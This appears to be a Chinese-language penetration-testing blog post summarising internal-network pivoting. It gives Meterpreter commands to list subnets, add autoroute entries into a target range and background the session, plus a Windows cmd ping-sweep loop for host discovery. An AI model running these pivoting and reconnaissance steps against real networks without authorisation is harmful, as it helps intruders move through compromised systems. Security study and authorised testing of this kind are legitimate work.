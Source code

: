 ```yaml
---
layout: post
title: "内网渗透总结（持续更新）"
date: 2019-5-24 11:49:43
author: co0ontty
categories: ALL
tags: ALL 
---
```

## 添加路由：
### 获取内网网段地址：
```shell
meterpreter > run get_local_subnets
```
###  添加去往目标网段的转发路由：
```shell
meterpreter > run autoroute -s 172.17.0.0/24
```
### 查看路由添加状况：  
```shell
meterpreter > run autoroute -p
```
### 使用：  
将添加路由完成的meterpreter进程添加到backgroup，让回话在后台持续运行   
使用相应的脚本对目标内网进行探测  
## 内网主机发现：
### cmd：
for /l %p in (1,1,254) do @ping -l 1 -n 3 -w 40 192.168.1.%p & if errorlevel 1 (echo 192.168.1.%p>>na.txt) else (echo 192.168.1.%p>>ok.txt)  